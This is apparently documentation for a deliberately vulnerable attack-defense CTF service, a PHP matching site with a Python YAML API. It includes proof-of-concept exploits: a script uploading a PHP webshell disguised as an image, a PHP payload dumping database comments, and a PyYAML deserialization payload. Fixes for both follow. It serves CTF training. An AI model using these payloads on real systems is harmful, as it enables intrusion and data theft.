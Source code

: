# Service documentation

# Service Components
This service is built using PHP. The frontend is raw HTML/JS/CSS. The service also uses a MYSQL database and has an api backend service written in python. Only the PHP service is accessable from outside the container.

# Functionalities and Flag stores
A use will be able to:
* register an account.
* login to that account
* update their profile:
  * post public comments
  * post private comments (***FLAG STORE 1*** in the database)
  * upload profile pictures (***VULN 1***)
* view other profiles
* match with other people
  * this is handeled in the python api (***FLAG STORE 2*** in the filesystem as a filename)
  * they can customize their request (***VULN 2***)
  * they can see the results in a differnet request
 
# Vulnerabilities and Exploits
1. *Unrestricted File Upload (UFU)*: The file upload functionality in the profile.php/upload.php is insufficient. A user can upload a ***.php*** file using a *fake* image. To do so, the attacker needs to have a valid image and then inject PHP code into the metadata of the image and save it as *<filename>.php*. The attacker then needs to upload the malicious file directly via the upload.php.\
POC:
```
import requests

session = requests.Session()
login_url = 'http://localhost:8080/login.php'

login_data = {
    'username': 'username',
    'password': 'password'
}
# we assume that this user exists already
response = session.post(login_url, data=login_data)

files = {"image": open("exploit.php", "rb")}
response = session.post('http://localhost:8080/upload.php', files=files)
print(response.text) # check if we successfully uploaded our exploit
```
To get the flags the following PHP code could be injected:
```
<?php require '../../config.php'; $r=$conn->query('SELECT * FROM comments'); echo print_r($r->fetch_all()); ?>
```
***NOTE***: the MYSQL user is in append only mode, meaning that the flags can't be deleted. However, the docker-compose.yml file defines a default root password for the database. THIS MUST BE CHANGED by the team orelse the attacker can login to the database as root and delete the flags.

2. *Usage of unsafe library function call*: The api backend expects a yaml file, which will then be handled using PYYAML. However, the api uses the unsafe function yaml.load (with the default loader: yaml.Loader). This makes it possible to execute python commands using a specific syntax. This vulnerability is somehow contained, as the api forks and chroots each time a request is made (revents the use of system commands).
POC:
The attack.json file will provide the username of the account that hold the flag. To get the flag we can then inject the following command in the punchline:
```
!!python/object/apply:os.listdir ["uploads/{hashed_username}"]
```
This will list all the files of the user directory, including the hex encoded flag.

# Fixes
1. To fix the first vulnerability we can disallow ***.php*** extensions. Another approach would be to only allow a whitelist including only PNG and JPEG:
```
$destination = $upload_dir . $_FILES["image"]["name"];
// BEGIN OF PATCH
$file_name = basename($_FILES["image"]["name"]);
$file_ext = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
$allowed_exts = ["jpg", "jpeg", "png"];

if (!in_array($file_ext, $allowed_exts)) {
    echo "Error: Invalid file extension.";
    exit();
}
// END OF PATCH
$mime_check = getimagesize($_FILES["image"]["tmp_name"])["mime"];
```
2. To fix the second vulnerability we can use the safe function to load yaml files:
```
# old
parsed_data = yaml.load(yaml_data, yaml.Loader)
yaml.dump(user_info, open(file_path, "w"))

# new
parsed_data = yaml.safe_load(yaml_data)
yaml.safe_dump(user_info, open(file_path, "w"))
```
